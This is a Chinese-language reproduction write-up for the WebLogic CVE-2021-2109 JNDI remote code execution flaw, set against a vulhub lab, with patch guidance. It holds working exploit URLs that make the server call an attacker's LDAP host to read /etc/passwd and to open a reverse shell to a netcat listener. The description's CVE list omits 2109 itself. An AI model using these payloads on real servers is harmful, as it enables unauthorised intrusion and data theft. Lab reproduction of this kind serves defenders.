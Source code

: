 # CVE-2021-2109 WebLogic LDAP远程代码执行漏洞

## Description

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

* WebLogic Server 10.3.6.0.0
* WebLogic Server 12.1.3.0.0
* WebLogic Server 12.2.1.3.0
* WebLogic Server 12.2.1.4.0
* WebLogic Server 14.1.1.0.0

## Explanation of exploit; PoC

### 运行靶场环境

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 `http://your-ip:7001`，看到如下页面即为靶场正常运行。

![](images/cve-2021-2109-1.png)

### 漏洞复现

访问URL: `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`, 可以看到如下页面，且在影响范围内则可能存在漏洞。

![](images/cve-2021-2109-2.png)

下载漏洞攻击需要的一款用于JNDI注入利用的工具，该工具大量参考/引用了 Rogue JNDI 项目的代码，支持直接植入内存shell，并集成了常见的bypass 高版本JDK的方式，适用于与自动化工具配合使用。

![](images/cve-2021-2109-3.png)

- 使用 `java -jar JNDIExploit.jar -h` 查看参数说明，其中 `--ip` 参数为必选参数
- 使用 `java -jar JNDIExploit.jar -u` 查看支持的 LDAP 格式

在 kali 运行工具启动 LDAP 服务，`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i xxx.xxx.xxx.xxx`，其中 `xxx.xxx.xxx.xxx` 为 kali 的 IP 地址。

![](images/cve-2021-2109-4.png)

**RCE**

刷新 `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal` 页面，并通过 Burp Suite 拦截请求，发送到 Repeater，修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
`，并添加参数 `cmd` 值为 `cat /etc/passwd`，点击 `Send`，即可看到如下页面，即为成功利用漏洞。

??? note "Payload 注意"
    
    `ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho` 这里 LDAP服务器地址第三个分隔符号为 `;`

![](images/cve-2021-2109-5.png)

**反弹 Shell**

先在 kali 监听 4444 端口，`nc -lvvp 4444`

然后在 Burp Suite 中修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/ReverseShell/xxx.xxx.xxx.xxx/4444;AdminServer%22)`

![](images/cve-2021-2109-6.png)

看到如下页面，即为成功利用漏洞。

![](images/cve-2021-2109-7.png)

## Mitigation

![](images/cve-2021-2109-8.png)

1. 由于是通过JNDI注入进行远程代码执行，建议升级Weblogic Server运行环境的JDK版本；
2. 升级官方安装补丁：[https://www.oracle.com/security-alerts/cpujan2021.html](https://www.oracle.com/security-alerts/cpujan2021.html)

## 参考链接

1. [漏洞分析见](https://mp.weixin.qq.com/s/wX9TMXl1KVWwB_k6EZOklw)
2. [调试分析参考](https://mp.weixin.qq.com/s/WtoUzPEgLlU8jUzvzC75Dg)
3. [Oracle 发布2021年1月关键补丁更新，修复多个严重漏洞](https://mp.weixin.qq.com/s/gRgrzgkgeehT1DnnlnqQKw)